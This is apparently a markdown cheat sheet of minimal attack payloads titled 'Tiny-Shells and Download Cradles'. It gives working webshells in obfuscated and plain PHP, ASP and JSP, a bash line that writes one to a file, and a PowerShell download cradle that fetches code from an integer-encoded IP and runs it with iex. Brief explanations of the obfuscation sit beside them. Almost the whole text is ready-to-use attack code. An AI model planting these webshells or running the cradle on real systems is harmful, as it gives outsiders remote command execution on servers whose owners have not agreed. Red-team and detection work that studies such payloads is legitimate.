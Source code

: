 # Tiny-Shells and Download Cradles

All kinds of tiny shells or download cradles. It's all about minimization.

## PHP - Obfuscated Webshell (19 bytes)

Source: https://gist.github.com/0xSojalSec/5bee09c7035985ddc13fddb16f191075

```php
<?=`{${~"\xa0\xb8\xba\xab"}["\xa0"]}`;
```

in Terminal:
```bash
echo -ne '<?=`{${~\xa0\xb8\xba\xab}[\xa0]}`;' > rev_shell.php
```
This is how the code will be produced, \xa0\xb8\xba\xab will be 
treated as constant therefore no " needed. It is also not copyable
string because of non-ascii characters.
 
 Explanation:
 * ~"\xa0\xb8\xba\xab" <-> "_GET"
 * ${"_GET"}["\xa0"] <-> $_GET["\xa0"]
 * \`{$_GET["\xa0"]}\` <-> shell_exec($_GET["\xa0"])
 
This is only 5 bytes longer than the shortest PHP shell (using $_GET to smuggle data)! 
```php
<?=`$_GET[_]`;
```
  
This is a slightly improved idea that I had 2 years ago
https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2

Author: https://gist.github.com/0xSojalSec

## PowerShell - Download Cradle (18 bytes)

Source: https://twitter.com/johnxor2/status/1620365760462991361

```powershell
."iwr"16843009|iex
```

Explanation:
* `iwr` = Invoke Web-Request
* `16843009` = Integer of IP address `1.1.1.1` (convert: https://www.browserling.com/tools/dec-to-ip)
* `|` = pipe the respone to
* `iex` = Invoke-Expression

Author: https://twitter.com/johnxor2

## ASP - Webshell (20 bytes)

Author unknown:

```javascript
<%eval request(0)%>
```

## JSP - Webshell (60 bytes)

Nothing fancy in here, just execution of the passed parameter since the language doesn't allow further abriviations.

```Java
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```

